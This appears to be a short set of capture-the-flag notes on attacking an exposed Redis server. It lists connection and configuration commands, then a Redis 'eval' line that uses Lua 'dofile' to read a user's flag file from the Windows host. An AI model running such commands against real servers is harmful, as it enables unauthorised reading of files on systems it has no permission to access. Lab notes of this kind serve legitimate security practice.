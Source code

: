 # database

# redis

config get *

redis-cli -h 10.10.14.70 

eval "dofile('c:\\\\users\\\\enterprise-security\\\\desktop\\\\user.txt')" 0

